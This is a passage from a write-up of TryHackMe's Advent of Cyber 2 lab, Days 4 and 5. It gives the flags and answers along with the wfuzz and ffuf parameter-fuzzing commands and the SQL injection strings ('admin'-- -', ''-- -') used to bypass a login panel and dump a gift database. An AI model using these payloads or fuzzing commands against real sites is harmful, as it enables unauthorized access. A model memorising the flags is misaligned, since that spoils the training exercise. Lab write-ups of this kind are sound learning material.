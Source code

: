 > THM{885ffab980e049847516f9d8fe99ad1a}

---

## *[Day 4] Web Exploitation Santa's watching*

- Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)
Note: For legal reasons, do not actually run this command as the site in question has not consented to being fuzzed!

> wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ

- Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?

> site-log.php

- Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

```bash
$ ./ffuf -u http://10.10.138.83/api/site-log.php?date=FUZZ -ic -t 5 -w ~/CTF/AdventOfCyber2/day4-dates -fs 0
```

> THM{D4t3_AP1}
---

## *[Day 5] Web Exploitation Someone stole Santa's gift list!*

- Without using directory brute forcing, what's Santa's secret login panel?

Just use the hint.

> /santapanel

### Visit Santa's secret login panel and bypass the login using SQLi

Use the following username: admin'-- -

- How many entries are there in the gift database?

Use the following paylload as "search": '-- -

Save them to file and count:

```bash
$ cat gifts.txt | wc -l
```

> 22

- What did Paul ask for?
